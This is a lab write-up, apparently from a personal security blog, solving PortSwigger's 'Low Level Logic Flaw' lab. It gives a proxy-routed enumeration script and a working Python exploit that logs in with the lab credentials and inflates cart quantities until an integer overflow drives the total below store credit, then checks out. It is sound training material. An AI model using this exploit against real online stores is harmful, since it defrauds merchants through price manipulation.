 ```yaml
--- 
title: "Low Level Logic Flaw"
author: ""
date: 2024-06-01T18:07:18+01:00
description: ""
draft: false
disableComments: false
categories: []
series: [] #Taxonomy to list "See Also" Section in Opengraph Templates
tags: []
slug: ""
summary: ""
---
```

#### Entities
Asset: https://0a4c001e030d58a4847c65e80013002f.web-security-academy.net

#### Enumeration
Access the lab, add the domain to Burp's Target scope and check `Include subdomains`. View `/` route source page and inspect the page, then request all embedded links via Burp proxy using the scripts below.

```python
from bs4 import BeautifulSoup
from urllib.parse import urljoin
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

base_url = "https://0a4c001e030d58a4847c65e80013002f.web-security-academy.net"
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
content = BeautifulSoup(requests.get(base_url).text, 'html.parser')
for link in content.find_all('a', href=True):
  full_url = urljoin(base_url,link['href'])
  response = requests.get(full_url, proxies=proxies, verify=False)
  print(f"{response.status_code} {response.url}")
for img in content.find_all('img', src=True):
  full_url = urljoin(base_url,img['src'])
  response = requests.get(full_url, proxies=proxies, verify=False)
  print(f"{response.status_code} {response.url}")
```

![Enumeration](/images/bizlogic5/01-enumerate-low-level-logic-flaw.png "Enumeration")  

#### Exploration
Stacking BurpSuite and the Browser with FoxyProxy extension for Burp turned on, perform a user flow for purchasing an item after logging in with the provided user credential  `wiener:peter`.  The `/login` when requested with valid credentials makes a POST request with `csrf`, `username` and `password` parameters. 

![Exploration](/images/bizlogic5/02-explore-low-level-logic-flaw.png "Exploration") 

#### Exploitation
Observe a POST request  to `/cart`  with `productId`,`redir`, and `quantity` parameters. When we can manipulate the `quantity` parameter we notice that we can purchase absurd number of items which causes an [integer overflow](https://www.invicti.com/learn/integer-overflow/) at some point. We exploit this by tactically by adding various item to force the total price below the store credit. Doing this manually is extremely laborious thus exploit it using the script below
```python
from bs4 import BeautifulSoup
from urllib.parse import urljoin
import requests
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Define Variables
base_url = 'https://0a4c001e030d58a4847c65e80013002f.web-security-academy.net/'
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

# Get CSRF Token
def get_csrf_token(session, url):
  response = session.get(url, proxies=proxies, verify=False)
  csrf_token = BeautifulSoup(response.text, 'html.parser').find('input', {'name': 'csrf'}).get('value')
  return csrf_token

# Get Items Total Price
def get_total(session):
  cart_url = urljoin(base_url, 'cart')
  response = session.get(cart_url, proxies=proxies, verify=False)
  soup = BeautifulSoup(response.content, 'html.parser')
  total_element = soup.find('th', string='Total:')
  if total_element:
    total_text = total_element.find_next_sibling('th').text
    total_value = total_text.replace('$', '')
    return float(total_value)
  else:
    return None

# Purchase Item
def purchase_item(session, url):
  # Login
  login_url = urljoin(base_url, 'login')
  login_csrf_token = get_csrf_token(session, login_url)
  login_payload = {'username': 'wiener', 'password': 'peter', 'csrf': login_csrf_token}
  login_response = session.post(login_url, data=login_payload, proxies=proxies, verify=False)

  if login_response.status_code == 200:
    cart_url = urljoin(base_url, 'cart')
    
    while True:
      # Add first item
      cart_payload1 = {'productId': '1', 'redir': 'PRODUCT', 'quantity': '99'}
      session.post(cart_url, data=cart_payload1, proxies=proxies, verify=False)

      # Check total
      total = get_total(session)
      if -70000 < total < 0:
        break

    while True:
      # Add second item
      cart_payload2 = {'productId': '2', 'redir': 'PRODUCT', 'quantity': '58'}
      session.post(cart_url, data=cart_payload2, proxies=proxies, verify=False)

      # Check total again
      total = get_total(session)
      if -4000 < total < 100:
        break

    while True:
      # Add third item
      cart_payload3 = {'productId': '3', 'redir': 'PRODUCT', 'quantity': '17'}
      session.post(cart_url, data=cart_payload3, proxies=proxies, verify=False)

      # Check total again
      total = get_total(session)
      if 0 < total < 100:
        # Checkout
        checkout_url = urljoin(base_url, 'cart/checkout')
        checkout_csrf_token = get_csrf_token(session, cart_url)
        checkout_payload = {'csrf': checkout_csrf_token}
        checkout_response = session.post(checkout_url, data=checkout_payload, proxies=proxies, verify=False)
        if checkout_response.status_code == 200:
          print("Purchase successful!")
        else:
          print("Failed to checkout.")
        break

  else:
    print("Failed to log in.")

def main():
  session = requests.Session()
  purchase_item(session, base_url)

if __name__ == "__main__":
  main()
```
![Exploitation](/images/bizlogic5/03-exploit-low-level-logic-flaw.png "Exploitation") 

![Solution](/images/bizlogic5/04-lab-solution.png "Solution")   

#### Resources
- https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-low-level
- https://github.com/knoxknot/portswigger/tree/main/business-logic/05-low-level-logic-flaw